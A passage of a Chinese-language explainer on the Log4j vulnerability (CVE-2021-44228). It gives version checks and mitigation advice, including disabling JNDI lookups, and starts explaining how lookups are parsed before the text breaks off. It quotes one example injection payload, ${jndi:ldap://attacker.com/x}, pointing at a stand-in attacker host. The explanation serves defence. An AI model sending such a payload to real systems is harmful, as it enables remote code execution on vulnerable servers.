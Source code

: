及以下</span></span></section></td><td data-colwidth="116"><section><span style="color: rgba(0, 0, 0, 0.8);font-family: Inter, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, &#34;SF Pro SC&#34;, &#34;SF Pro Display&#34;, &#34;SF Pro Icons&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;font-size: 15px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: 2;text-align: left;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">Log4j 2.x</span></span></section></td><td data-colwidth="243"><section><span style="color: rgba(0, 0, 0, 0.8);font-family: Inter, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, &#34;SF Pro SC&#34;, &#34;SF Pro Display&#34;, &#34;SF Pro Icons&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;font-size: 15px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: 2;text-align: left;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">需检查版本是否高于 2.17.1</span></span></section></td></tr></tbody></table>  
可以通过检查依赖、升级版本或切换日志框架，以消除安全隐患。  
若无法立即升级，可通过添加 JVM 参数禁用 JNDI 功能。  

```
-Dlog4j2.formatMsgNoLookups=true
```

  
嗯，接下来，我们好好把Log4j漏洞  
（CVE-2021-44228）说一下。  
  
这个漏洞使得攻击者能够通过利用Log4j2中的JNDI（Java 命名和目录接口）  
查找功能，在服务器上执行任意代码。  
  
看来罪魁祸首就是这个  
JNDI  
查  
找功能。  
  
看看这个JNDI查找功能都有什么设计缺陷吧：  
  
当系统记录包含
```
${jndi:ldap://attacker.com/x}
```

  
字符串时：  
1. **表达式解析（Parsing）**  
  
Log4j2首先会**解析**  
日志内容中的
```
${}
```

  
表达式结构，识别出这是一个JNDI查找指令。  
  
1. **JNDI查找（Lookup）**  
  